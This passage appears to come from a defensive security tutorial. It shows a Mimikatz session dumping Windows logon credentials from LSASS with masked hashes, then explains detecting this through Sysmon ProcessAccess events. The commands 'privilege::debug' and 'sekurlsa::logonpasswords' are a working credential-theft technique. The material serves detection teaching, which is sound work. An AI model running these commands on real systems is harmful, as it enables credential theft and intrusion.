 The attack can be executed as follows.

```cmd-session
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( [email protected] )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( [email protected] )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :

```

As we can see, the output of the "sekurlsa::logonpasswords" command provides powerful insights into compromised credentials.

To detect this activity, we can rely on a different Sysmon event. Instead of focusing on DLL loads, we shift our attention to process access events. By checking `Sysmon event ID 10`, which represents "ProcessAccess" events, we can identify any suspicious attempts to access LSASS.

![Image](DGDS23mSPYK7.png)![Image](vmub2X8uXIu6.png)
